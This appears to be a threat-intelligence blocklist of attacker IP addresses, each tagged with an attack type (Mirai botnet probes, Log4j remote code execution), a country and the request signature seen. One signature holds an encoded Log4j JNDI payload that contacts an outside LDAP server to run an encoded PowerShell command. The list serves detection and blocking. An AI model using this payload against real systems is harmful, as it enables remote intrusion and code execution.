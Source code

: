 181.219.149.148	#backdoor: Mirai.Botnet | Origin:Brazil | Signature:/spywall/timeConfig.php
18.119.59.84	#Apache.Log4j.Error.Log.Remote.Code.Execution | Origin:USA | Signature:/?id=%24%7Bjndi%3Aldap%3A%2F%2F218.24.200.243%3A8066%2FTomcatBypass%2FCommand%2FBase64%2FcG93ZXJzaGVsbCAtZW5jIFNRQkZBRmdBSUFBb0FFNEFaUUIzQUMwQVR3QmlBR29BWlFCakFIUUFJQUJUQUhrQWN3QjBBR1VBYlFBdUFFNEFaUUIwQUM0QVZ3QmxBR0lBWXdCc0FHa0FaUUJ1QUhRQUtRQXVBRVFBYndCM0F
91.125.213.1	#backdoor: Mirai.Botnet | Origin:UK | Signature:/spywall/timeConfig.php
107.173.159.85	#backdoor: Mirai.Botnet | Origin:USA | Signature:/spywall/timeConfig.php
